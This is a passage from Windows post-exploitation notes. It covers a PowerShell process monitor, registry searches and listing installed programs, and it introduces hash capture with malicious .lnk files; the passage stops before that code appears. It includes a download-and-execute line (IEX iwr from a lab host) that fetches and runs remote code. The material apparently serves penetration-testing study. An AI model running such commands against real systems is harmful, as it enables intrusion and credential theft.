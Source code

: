 * It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.
* procmon.ps1

```shell-session
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

```powershell-session
 IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```

### Search Windows Registry for key

```
# Download script
curl https://raw.githubusercontent.com/KurtDeGreeff/PlayPowershell/master/Search-Registry.ps1 -OutFile Search-Registry.ps1

# View docs
Get-Help .\Search-Registry.ps1

# Simple example (search HKEY_CURRENT_USER for values with data containing "powershell")
.\Search-Registry -StartKey HKCU -Pattern "PowerShell" -MatchData
```

**Get Installed Programs via PowerShell & Registry Keys**

```powershell-session
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

### Capturing Hashes with a Malicious .lnk File

* Using SCFs no longer works on Server 2019 hosts,
  * but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file.
* We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file.
  * We can also make one using a few lines of PowerShell:

**Generating a Malicious .lnk File**
